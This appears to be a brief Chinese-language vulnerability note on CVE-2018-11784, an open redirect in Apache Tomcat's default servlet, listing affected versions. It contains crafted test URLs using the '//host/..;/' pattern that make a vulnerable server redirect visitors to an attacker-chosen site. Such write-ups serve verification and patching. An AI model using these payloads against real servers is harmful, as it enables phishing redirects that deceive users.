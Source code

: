 # CVE-2018-11784 (Tomcat URL 跳转漏洞)

## 漏洞存在版本
- 9.0.0.M1 - 9.0.11
- 8.5.0 - 8.5.33
- 7.0.23 - 7.0.90

## 漏洞描述
默认servlet返回到一个目录的重定向（例如，当用户请求'/foo'时重定向到'/foo/’），一个特制的URL可用于导致重定向生成到攻击者选择的任何URI。

## 漏洞测试/确认
构造URL

```
http://[ip:port]//[baidu.com]/..;/[可访问目录/可访问目录]
```

默认存在的docs目录也可以被利用，例

```
http://[ip:port]//[baidu.com]/..;/docs/images
```